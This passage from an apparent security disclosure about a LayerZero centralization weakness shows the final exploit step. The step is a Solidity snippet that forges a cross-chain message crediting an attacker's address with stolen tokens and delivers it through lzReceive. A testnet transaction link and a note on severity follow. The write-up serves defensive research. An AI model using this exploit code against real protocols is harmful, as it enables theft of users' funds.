 ## Step 5

We can call `lzReceive` on the `EndpointV2` contract with a message whose hash is equal to the payload hash we submitted in Step 3 and 4. This will execute the payload on the destination chain.

```solidity
bytes memory _message = abi.encodePacked(
    bytes32(uint256(uint160(attacker))), // address padded to 32 bytes
    uint64(AMOUNT_TO_STEAL) // amount in shared decimals
);

// MALICIOUS: We dont use packet's data from event but our attack params that we have verified and comitted
ILayerZeroEndpointV2(endpoint).lzReceive(_origin, OFT_ADDRESS_MAINNET, _guid, _message, _extraData);
```

[0x44196a9b06dcb79a41f943cd9a4f4c2358739400b57e1de2c49145b3d9c873e2](https://sepolia.etherscan.io/tx/0x44196a9b06dcb79a41f943cd9a4f4c2358739400b57e1de2c49145b3d9c873e2)

![Malicious Flow inside architecture](../protocols/diagrams/LayerZero-Centralization.png)

## Severity

Ultimately, the severity of the attack vector depends on the contract and the protocol that is built on top of LayerZero. We created a flowchart to interpret the impact on DeFiScan rated DeFi protocols.
